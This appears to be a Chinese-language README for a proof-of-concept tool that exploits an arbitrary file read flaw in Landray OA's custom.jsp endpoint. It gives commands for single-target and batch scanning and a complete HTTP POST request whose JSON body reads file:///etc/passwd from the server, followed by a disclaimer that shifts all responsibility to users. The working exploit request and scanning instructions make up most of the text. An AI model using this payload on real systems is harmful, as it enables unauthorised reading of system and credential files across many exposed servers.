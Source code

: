 # Landray-OA_fileread
蓝凌oa custom.jsp存在任意文件读取漏洞。


## 工具利用

python3 Landray-OA_fileread.py -u http://127.0.0.1:1111 单个url测试

python3 Landray-OA_filereadpy -f url.txt 批量检测
![exp](./poc.jpg)

## EXP

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 127.0.0.1:10082
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.1294.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

var={"body":{"file":"file:///etc/passwd"}}
```
![exp](./poc1.jpg)
![exp](./poc2.jpg)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
